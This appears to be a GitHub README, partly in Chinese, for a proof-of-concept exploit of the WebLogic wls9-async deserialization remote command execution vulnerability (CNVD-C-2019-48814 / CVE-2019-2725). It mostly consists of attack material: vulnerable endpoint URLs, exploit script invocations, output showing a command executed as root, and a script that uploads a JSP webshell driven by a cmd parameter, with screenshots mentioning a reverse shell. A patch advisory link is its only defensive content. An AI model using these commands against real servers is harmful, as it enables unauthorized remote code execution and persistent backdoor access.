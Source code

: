 # CNVD-C-2019-48814
WebLogic wls9-async反序列化远程命令执行漏洞

### 回显poc for weblogic 
![](./command_see.jpg)

### Patch update: 
```

https://www.oracle.com/technetwork/security-advisory/alert-cve-2019-2725-5466295.html

```
### 漏洞复现：


```
http://10.10.20.166:7001/_async/AsyncResponseService
```

```
curl -i http://10.10.20.166:7001/_async/favicon.ico
```
##  CNVD-C-2019-48814 Video

[![CNVD-C-2019-48814](https://i.ytimg.com/vi/KEgOrgcLu0s/hqdefault.jpg?sqp=-oaymwEZCNACELwBSFXyq4qpAwsIARUAAIhCGAFwAQ==&rs=AOn4CLCLGk3OZ83msmbe5IgfAq6EFN2Dhw)](https://github.com/jas502n/CNVD-C-2019-48814/blob/master/CNVD-C-2019-48814.mp4)

```
python CNVD-C-2019-48814.py -u  http://10.10.20.166:7001  -p 1.txt

>>>>Common See:

write website favicon.ico
Don't Need RMI Server

http://10.10.20.166:7001/_async/favicon.ico

>>>>Request Success!
status_code:202

C:\Users\CTF\Desktop\weblogic\byte>curl -i http://10.10.20.166:7001/_async/favicon.ico
HTTP/1.1 200 OK
Date: Thu, 25 Apr 2019 14:37:49 GMT
Accept-Ranges: bytes
Content-Length: 5
Last-Modified: Thu, 25 Apr 2019 14:37:45 GMT
X-Powered-By: Servlet/2.5 JSP/2.1

root

```
## Use RMI
![](./python.jpg)

![](./burpsuite.jpg)

###  CVE-2017-10271 No pactch

#### windows-linux-webshell
```
upadte: 自定义webshell名字，适用于windows or linux upload webshell

python async_webshell-all.py  http://10.10.20.166:7001/ webshell.jsp
>>>Webshell:
http://10.10.20.166:7001//bea_wls_internal/webshell.jsp?pwd=123&cmd=whoami
```
![](./windows-linux-webshell.jpg)


#### resever_shell
![](./reserve_shell.jpg)
#### command see
![](./command.jpg)
#### webshell
![](./webshell.jpg)

